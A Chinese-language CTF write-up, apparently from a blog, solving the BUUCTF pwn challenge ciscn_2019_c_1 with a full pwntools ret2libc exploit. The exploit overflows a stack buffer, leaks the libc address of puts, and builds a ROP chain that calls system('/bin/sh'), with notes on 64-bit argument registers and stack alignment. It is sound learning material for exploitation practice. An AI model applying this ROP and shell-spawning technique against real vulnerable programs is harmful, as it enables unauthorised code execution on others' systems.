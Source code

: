 大体上和ret2libc3相同，不过是64bits的，算是一个从32->64的转变的题目

直接上exp(本地)

```python
from pwn import *

context.log_level='DEBUG'
context.arch='amd64'
context.os='linux'
sh = process("./ciscn_2019_c_1")
libc = ELF("/usr/lib/x86_64-linux-gnu/libc-2.31.so")
elf = ELF("./ciscn_2019_c_1")

puts_plt = elf.plt['puts']
puts_got = elf.got['puts']
encrypt_addr = elf.symbols['encrypt']
pop_rdi_ret = 0x0400c83
ret = 0x4006b9

sh.recvuntil(b"Input your choice!\n")
sh.sendline(b'1')

payload = b'A' * (0x50+0x08) + p64(pop_rdi_ret) + p64(puts_got) + p64(puts_plt) + p64(encrypt_addr)
sh.recvuntil("Input your Plaintext to be encrypted\n")
sh.sendline(payload)
sh.recvuntil("Ciphertext\n")
sh.recvline()
puts_addr = u64(sh.recvuntil('\n', drop=True).ljust(8, b'\x00'))
print(hex(puts_addr))

libc_base = puts_addr - libc.sym['puts']
system_addr = libc_base + libc.sym['system']
binsh_addr = libc_base + next(libc.search(b'/bin/sh'))
payload2 = b'A' * (0x50+0x08) + p64(ret) + p64(pop_rdi_ret) + p64(binsh_addr) + p64(system_addr) + p64(0)
sh.recvuntil(b"Input your Plaintext to be encrypted\n")
sh.sendline(payload2)
sh.interactive()

```

几个需要注意的点：

- 因为是64位，所以前面6个参数传参时候需要使用寄存器`rdi,rsi,rdx,rcx,r8,r9`，需要找ROPgadgets

- payload2当中的p64(ret)是为了堆栈平衡防止虚拟机崩溃（崩了八万次了），详情可看[「BUUCTF」Pwn - Rip Ubuntu18中64位ELF在调用system时候可能出现的问题](https://novanoir.moe/2021/11/29/BUUCTF-The-problem-I-met-in-RIP/)

  

# 特别感谢

[Mark爹](https://blog.mark0519.com)可以说是手把手教了我GDB的用法，甚至录了个半小时的视频！直接三个响头的磕❤❤❤

